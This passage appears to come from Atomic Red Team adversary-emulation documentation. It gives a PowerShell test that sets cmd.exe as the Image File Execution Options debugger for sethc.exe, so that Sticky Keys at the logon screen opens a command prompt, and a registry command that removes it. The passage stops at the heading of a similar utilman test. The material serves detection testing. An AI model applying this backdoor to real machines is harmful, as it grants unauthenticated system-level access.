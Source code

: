



<br/>
<br/>

## Atomic Test #2 - Attaches Command Prompt As Debugger To Process - sethc
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | sethc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /f
```





<br/>
<br/>

## Atomic Test #3 - Attaches Command Prompt As Debugger To Process - utilman
This allows adversaries to execute the attached process

**Supported Platforms:** Windows
